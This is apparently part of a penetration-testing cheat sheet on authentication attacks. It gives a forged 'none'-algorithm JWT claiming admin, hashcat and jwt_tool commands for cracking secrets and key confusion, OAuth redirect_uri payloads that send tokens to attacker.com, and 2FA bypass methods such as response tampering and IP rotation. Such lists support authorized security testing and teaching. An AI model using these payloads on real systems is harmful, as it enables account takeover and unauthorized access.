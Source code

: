 ```bash
# Check if session tokens are properly invalidated

# JWT vulnerabilities
# None algorithm
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWRtaW4ifQ.

# Weak secret bruteforce
hashcat -a 0 -m 16500 jwt.txt wordlist.txt

# Key confusion (RS256 to HS256)
python3 jwt_tool.py JWT_HERE -X k -pk public_key.pem
```

### OAuth/SSO Vulnerabilities

```bash
# OAuth redirect_uri manipulation
https://target.com/oauth/authorize?redirect_uri=https://attacker.com

# Open redirect via OAuth
https://target.com/oauth/authorize?redirect_uri=https://target.com/redirect?url=https://attacker.com

# CSRF in OAuth flow
# Remove or manipulate 'state' parameter

# OAuth token disclosure
# Check if tokens are exposed in Referer header
# Check browser history for tokens in URLs

# Account takeover via OAuth misconfiguration
# Pre-account takeover: Register with victim's email via OAuth provider
```

### 2FA Bypass Techniques

```bash
# Direct request to protected endpoint
curl https://target.com/dashboard -H "Cookie: session=SESS_ID"

# Response manipulation
# Intercept response and change {"2fa_required": true} to false

# Reuse backup codes
# Try using same backup code multiple times

# Rate limiting bypass
# Try multiple codes rapidly with IP rotation

# OTP bypass via password reset
# Check if password reset bypasses 2FA

# Remember me functionality
# Check if "remember this device" bypasses 2FA permanently
```
